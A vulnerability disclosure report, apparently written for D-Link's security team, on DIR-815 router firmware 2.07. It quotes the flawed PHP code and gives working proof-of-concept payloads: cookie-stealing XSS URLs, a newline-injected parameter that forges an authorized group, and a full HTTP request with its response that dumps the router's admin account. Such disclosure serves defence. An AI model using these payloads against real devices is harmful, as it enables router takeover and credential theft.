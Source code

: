 I find some vulnerabilities in d-link dir815 router recently.This is a report to the dlink security team.

### Production Description

- Product Page : DIR-815
- Firmware Version : 2.07 (DIR-815_REVB_FIRMWARE_PATCH_2.07.B01) 
- Hardware Version : N/A

### Vulnerabilities Summary

There are several vulnerabilities :

1. **Xss**
2. **Permission bypass** 
3. **Information disclosure**.

### Details - WAN && LAN - revB - XSS(CVE-2018-10107,CVE-2018-10108)

An attacker can use the XSS to target which is an authenticated user in order to steal the authentication cookies.

1. /htdocs/webinc/js/bsc_sms_inbox.php   line: 17

   ```php
   [..]
   var get_Treturn = '<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';
   [..]
   ```

   The parameter  **$_GET["Treturn"]** has no filter.So the poc:

   ```http://192.168.0.1/bsc_sms_inbox.php?Treturn=1';alert(document.cookie)//```

2. /htdocs/webinc/js/info.php line:27 -30

   ```php
   [..]
   		$title	= "ACTION ".$_GET["RESULT"];
   		if($_GET["REASON"]=="ERR_REQ_TOO_LONG")
   		{
   			$message = "'".i18n("The action requested failed because the file uploaded too large.")."', "."'<a href=\"".$referer."\">".i18n("Click here to return to the previous page.")."</a>'";
   		}
   		echo "\t\tvar msgArray = [".$message."];\n";
   		echo "\t\tBODY.ShowMessage(\"".$title."\", msgArray);\n";
   ?>  },
   [..]
   ```

   The parameter  **$_GET["RESULT"]** has the same problem as the last one,So the poc:

   ```http://192.168.0.1/info.php?RESULT=",msgArray);alert(document.cookie);//```

### Details - WAN && LAN - revB - Permission bypass&Information disclosure(CVE-2018-10106)

1. **Permission bypass**

   I found some files or some functions only can be accessed by power user,such like:

   /htdocs/web/getcfg.php  line:83-94

   ```php
   function is_power_user()
   {
   	if($_GLOBALS["AUTHORIZED_GROUP"] == "")
   	{
   		return 0;
   	}
   	if($_GLOBALS["AUTHORIZED_GROUP"] < 0)
   	{
   		return 0;
   	}
   	return 1;
   }
   ```

   We can see the ```$_GLOBALS["AUTHORIZED_GROUP"]``` need to be greater than 0 and not a null.

   Phpcgi is a symbolic link to cgibin. Phpcgi is responsible for processing requests to .php, .asp and .txt pagesIt can be through URL, HTTP head or POST request sent by body data analysis.The phpcgi will create a long string, and the string will be treated as a series of key value pairs, and are used in ```$_GET, $_POST and $_SERVER``` dictionary and PHP script variable.Nevertheless, if a request is crafted in a proper way, an attacker can easily bypass authorization.

   Each of the key values pairs is encoded in the following form: _TYPE_KEY = VALUE, where TYPE can be GET, POST, or SERVER. Next, the key value pairs are connected using the branch character '\n'. In this way, we can build a packet by itself to bypass some permission validation.Such like this:

   ```xxx=%0a_POST_AUTHORIZED_GROUP%3d1```

2. **Information disclosure**

   /htdocs/web/getcfg.php  line:94-147

   ```php
   if ($_POST["CACHE"] == "true")
   {
   	echo dump(1, "/runtime/session/".$SESSION_UID."/postxml");
   }
   else
   {
   	if(is_power_user() == 1)
   	{
   		/* cut_count() will return 0 when no or only one token. */
   		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
   		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
   		$SERVICE_INDEX = 0;
   		while ($SERVICE_INDEX < $SERVICE_COUNT)
   		{
   			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
   			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
   			if ($GETCFG_SVC!="")
   			{
   				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
   				/* GETCFG_SVC will be passed to the child process. */
   				if (isfile($file)=="1")
   				{
   					if(get("", "/runtime/device/sessions_privatekey")==1)
   					{
   						AES_Encrypt_DBnode($GETCFG_SVC, "Encrypt");
   						dophp("load", $file);
   						AES_Encrypt_DBnode($GETCFG_SVC, "Decrypt");
   					}
   					else
   					{	dophp("load", $file);}
   				}
   			}
   			$SERVICE_INDEX++;
   		}
   	}
   	else
   	{
   		/* not a power user, return error message */
   		echo "\t<result>FAILED</result>\n";
   		echo "\t<message>Not authorized</message>\n";
   	}
   }
   ```

   We can see ```dophp("load", $file)```, the function like a ``include()`` .

   The  variable **$file ** is made up of  **$GETCFG_SVC**, then **$GETCFG_SVC** comes from ```$_POST["SERVICES"]```, there is also no filter,so we can control the variable **$file **, and the permission validation ```is_power_user()```  can be bypassed by last trick. In this way,we can include any other php scripts to get some important informations,such like **DEVICE.ACCOUNT.xml.php**, it returns a username and password to a router,then we can login in the router.

3. **Proof of concept:**

   The http request:

   ```http
   GET /getcfg.php?a=%0a_POST_SERVICES%3DDEVICE.ACCOUNT%0aAUTHORIZED_GROUP%3D1 HTTP/1.1
   Host: 192.168.0.1
   User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:50.0) Gecko/20100101 Firefox/50.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Connection: close
   Upgrade-Insecure-Requests: 1
   ```

   the response:

   ```http
   HTTP/1.1 200 OK
   Server: Linux, HTTP/1.1, DIR-815 Ver 2.07
   Date: Sat, 01 Jan 2000 09:32:01 GMT
   Connection: close
   Content-Type: text/xml
   Content-Length: 646

   <?xml version="1.0" encoding="utf-8"?>
   <postxml>
   <module>
   	<service>DEVICE.ACCOUNT</service>
   	<device>
   		<gw_name>DIR-815</gw_name>
   		<account>
   			<seqno></seqno>
   			<max>1</max>
   			<count>1</count>
   			<entry>
   				<uid></uid>
   				<name>Admin</name>
   				<usrid></usrid>
   				<password></password>
   				<group>0</group>
   				<description></description>
   			</entry>
   		</account>
   		<group>
   			<seqno></seqno>
   			<max></max>
   			<count>0</count>
   		</group>
   		<session>
   			<captcha>0</captcha>
   			<dummy></dummy>
   			<timeout>180</timeout>
   			<maxsession>128</maxsession>
   			<maxauthorized>16</maxauthorized>
   		</session>
   	</device>
   </module>
   </postxml>
   ```

   ​
